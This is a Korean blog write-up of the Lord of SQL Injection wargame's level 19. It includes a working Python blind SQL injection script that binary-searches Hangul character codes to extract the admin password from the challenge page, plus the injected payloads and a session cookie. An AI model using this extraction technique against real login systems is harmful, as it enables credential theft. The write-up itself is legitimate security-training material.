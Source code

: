 ```yaml
---
title: LOS - 19번 xavis
category: Lord of SQL Injection
---
```


# [19] xavis

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbOK0DW%2FbtrnE823tg2%2FTk9pBzePoYO2Rqn92Lq8Xk%2Fimg.png">

## 풀이
오랜만에 만나는 Blind SQLi 문제다.

solve 조건은 언제나와 같이 admin 계정의 pw를 알아내는 것이다.

<br>

preg_match를 보면 regex와 like를 필터링하고 있다.

regex는 Sql 정규표현식인 regexp를 걸러내기 위한 것으로 보인다.

정작 =는 필터링 하고 있지 않기 때문에 유의미한 제약이 있어보이진 않는다.

<br>

그런데 너무 제약이 없다는 점이 좀 꺼림칙하다.

겉으로 보기에는 그냥 기본적인 Blind 문제 같지만... 그럴리가 없는데...?

<br> 

아니나 다를까, 기존의 자동화 코드가 먹히질 않았다.

필터에 걸린 것도 뭐가 잘못된 것도 아닌데 아스키 코드를 전체 다 돌고도 맞는 문자를 뽑아내오지 못했다.

불현듯 머릿속을 스친 생각은... 아 이거 한글인 것 같다ㅋㅋㅋㅋㅋㅠ

<br>

한글은 유니코드 문자셋을 통해 표현되기 때문에 당연한 말이지만 아스키 번호를 백날 돌아봐야 찾을 수가 없다.

한글로 된 데이터를 탐색하는 방법에는 여러가지가 있을 수 있겠지만 새로운 챌린지가 생긴 김에 그냥 내 식대로 (야매로) 한번 접근해보았다...ㅎ!

<br>

한글을 표현하는 유니코드는 정해진 16진수 값을 갖고 있고, 이 값들은 10진수로 변환이 가능하다.

10진수로 표현된 값은 대소 비교가 가능하다는 점과 이전에 몇번 등장했었던 ord 함수를 이용해보았다.

- 한글 유니코드 10진수 : 44032 '가' ~ 55203 '힣'

- ord : 해당 문자의 유니코드 값을 반환하는 함수

<br>

추가로, 이전까지와는 달리 탐색해야하는 번호의 개수가 무지막지하게.. 많기 때문에

세월아 네월아 하나하나 탐색해서는 시간이 과도하게 오래 걸리게 되는 문제에 직면하게 되었다.

그래서 미뤄뒀던 2진 탐색 알고리즘까지 한번 구현해보았다.


<br>
 

**2진 탐색을 적용한 LoS 19번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 19를 시작합니다")

ans = ""
endpoint = False

for len in range(1, 30):
    if(endpoint):
        break
    print(f"{len}번째 문자에 대해 검색합니다..")
    start = 44032
    end = 55203
    while True:
        if(endpoint):
            print(f"{len}번째 문자는 존재하지 않습니다.")
            print(f"👏 pw의 정체는 [{ans}]입니다!")
            break
        if(start==end):
            endpoint = True
        middle = round((start+end)/2)
        param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))>={middle} %23"
        if("Hello admin" in send(param)):
            param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))={middle} %23"
            if("Hello admin" in send(param)):
                print(f"{len}번째 문자의 십진수 → {middle}")
                ans += chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue
```

① HTTP 요청을 보내는 과정을 send() 함수로 분리했다.

② Sql에서 한글은 3Byte로 저장되는데, 이런저런 예외사항이 있기 때문에 length 함수로 정확한 문자열의 길이를 알아낼 수는 없다고 한다. 그래서 그냥 1부터 30까지 돌다가 pw를 완전히 찾으면 알아서 반복문을 탈출하게끔 구현했다. 설마 pw가 30자 보다 길진 않겠지...

③ 한글이 아닌 다른 문자가 섞여있을 시에는 사용할 수 없다는 분명한 한계점이 있다. 일단 시도해보고 안되면 수정하려고 했지만 운이 좋게도 pw가 그냥 한글 뿐이라서 여기서 구현이 종료되었다. 추가적인 구현을 해야 됐었더라면, 아마 해당 문자의 ord 값이 44032 보다 작을 시 바로 아스키 번호를 돌게끔 해주었을 것 같다.

<br>

다음은 해당 코드의 실행 결과이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzpB3U%2FbtrnBiTbjuW%2FXg3aUFYa1g6w3znjkuyNa1%2Fimg.png">


Blind 공격 결과, 입력할 답은 `우왕굳` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FqxRPT%2FbtrnCl9u4o0%2FgKISYRR1ebKg5PoezUu2n0%2Fimg.png">